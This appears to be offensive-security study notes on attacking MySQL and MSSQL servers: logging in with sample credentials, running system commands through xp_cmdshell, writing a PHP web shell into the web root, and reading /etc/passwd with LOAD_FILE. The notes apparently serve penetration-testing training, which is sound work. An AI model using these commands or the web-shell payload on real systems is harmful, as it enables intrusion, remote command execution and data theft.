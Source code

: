 ```shell
 mysql -u julio -pPassword123 -h 10.129.20.13
```

```cmd
qlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

MSSQL

```shell
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

OR

```shell
mssqlclient.py -p 1433 julio@10.129.203.7 
```

>[!NOTE]
>when we authenticate to MSSQL using `sqsh` we can use the parameters `-h` to disable headers and footers for a cleaner look.

## Execute Commands

```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```


## Write Local Files

```shell
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

In the following example, we can see the `secure_file_priv` variable is empty, which means we can read and write data using `MySQL`:

```shell-session
mysql> show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```

#### MySQL - Read Local Files in MySQL

```shell
select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```
